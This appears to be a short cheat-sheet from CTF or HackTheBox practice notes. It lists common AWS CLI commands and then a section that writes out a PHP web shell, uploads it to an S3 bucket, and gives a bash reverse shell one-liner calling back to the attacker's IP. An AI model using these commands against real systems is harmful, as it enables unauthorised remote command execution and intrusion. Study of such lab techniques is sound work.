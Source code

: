 #### `awscli`

Is the official command-line interface (CLI) provided by Amazon Web Services (AWS). It allows users to interact with various AWS services directly from the command line
Used to interact with AWS servers, domains, and S3 buckets.

# To execute commands on an endpoint
aws --endpoint=<hostname> <type> <command>

# List S3 Buckets
aws s3 ls

# Create an EC2 Instance
aws ec2 run-instances --image-id ami-xxxxxxxx --instance-type t2.micro --key-name MyKeyPair

# List EC2 Instances
aws ec2 describe-instances

# Configure AWS CLI
aws configure






#### Reverse Shell in AWS S3

If an AWS bucket is found, you can upload a script to execute commands on it.

# 1. Create a PHP script that executes commands
echo '<?php system($_GET["cmd"]); ?>' > shell.php


# 2. Upload the script to the bucket
aws --endpoint={url} s3 cp shell.php s3://thetoppers.htb


# 3. Create a reverse shell script and listen on your machine
Reverse shell script
#!/bin/bash
bash -i >& /dev/tcp/<YOUR_IP_ADDRESS>/1337 0>&1
